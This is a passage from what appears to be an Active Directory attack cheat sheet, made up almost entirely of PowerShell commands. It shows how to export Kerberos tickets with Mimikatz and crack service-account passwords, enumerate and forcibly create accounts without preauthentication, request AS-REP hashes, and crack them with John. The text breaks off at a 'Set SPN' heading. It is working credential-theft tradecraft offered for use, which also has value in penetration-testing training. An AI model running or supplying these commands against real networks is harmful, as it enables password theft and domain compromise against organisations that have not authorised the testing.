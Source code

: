 - Export all tickets using Mimikatz

```
PS C:\> Invoke-Mimikatz -Command '"kerberos::list /export"'
```

- Crack the Service account password

```
PS C:\> python.exe .\tgsrepcrack.py <wordlist> .\2-40a10000-student1@MSSQLSvc~test-mgmt.test.domain.local-TEST.DOMAIN.LOCAL.kirbi
```

### ASREPRoast

- Enumerate accounts with Kerberos preauthentication disabled using PowerView_dev

```
PS C:\> Get-DomainUser -PreauthNotRequired -Verbose
```

- Enumerate accounts with Kerberos preauthentication disabled using ActiveDirectory Module

```
PS C:\> Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```

- Enumerate the permissions for RDPUsers on ACLs that may allow us to forcibly disable Kerberos preauthentication using PowerView_dev (look for GenericAll or GenericWrite)

```
PS C:\> Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
```

- Forcibly disable Kerberos preauthentication on a user we have permissions over using PowerView_dev, then check if it worked

```
PS C:\> Set-DomainObject -Identity <username> -XOR @{useraccountcontrol=4194304} -Verbose
```

- Request encrypted AS-REP for offline brute-force

```
PS C:\> Get-ASREPHash -UserName <username> -Verbose
```

- Enumerate all users with Kerberos preauthentication disabled and request a hash

```
PS C:\> Invoke-ASREPRoast -Verbose
```

- Crack the hash offline using John

```
PS C:\> ./john hash.txt --wordlist=wordlist.txt
```

### Set SPN

- Enumerate the permissions for RDPUsers on ACLs using PowerView_dev (look for GenericAll or GenericWrite)
